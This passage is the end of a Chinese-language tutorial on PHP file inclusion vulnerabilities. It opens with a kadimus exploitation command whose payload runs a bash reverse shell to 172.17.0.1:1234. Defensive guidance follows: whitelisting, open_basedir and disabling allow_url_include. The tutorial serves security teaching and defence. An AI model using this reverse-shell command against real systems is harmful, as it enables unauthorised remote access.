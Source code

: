 ```
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
```

### 漏洞防御

#### 1.白名单限制

如果已经知道要包含的文件范围，那么直接使用白名单限制，比如：

复制代码

```
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {

    // This isn't the page we want!

    echo "ERROR: File not found!";

    exit;

}
```

#### 2.设置 open_basedir

在 php.ini 中设置 open_basedir，可允许将 PHP 打开的文件限制在指定的目录中，可有效防止跨目录访问一些系统敏感文件。除了 php.ini 设置方法外，还可在代码中设置：

复制代码

```
ini_set('open_basedir', '指定目录');
```

#### 3.关闭 allow_url_include

在 php.ini 中设置 allow_url_include＝Off（默认关闭），避免远程文件包含，同时减少一些伪协议的攻击，提高漏洞利用成本。

### 小结

本节课主要介绍了远程和本地两种类型的文件包含漏洞，教你如何挖掘与利用漏洞，以及如何防御。

“文件包含”漏洞的产生主要是因为对用户输入数据没有进行有效过滤，导致允许包含任意文件，进而执行恶意代码。所以在开发过程中，特别要注意使用文件包含函数时，要对输入变量进行过滤限制，限制文件路径或者白名单。

希望你在学习本课程时，也能跟着动手检测与利用漏洞，操作一遍可以加深理解，提高动手能力。毕竟本地文件包含漏洞的利用方式有点绕，可以先执行一个正常且合理的操作，再利用漏洞实现代码执行。

下一节课开始，我将给你介绍越权漏洞，它在不同的业务场景下可以造成不同的危害，因为它的特殊性，且比较偏业务逻辑处理上的问题，对它的检测与利用上都造成的挑战。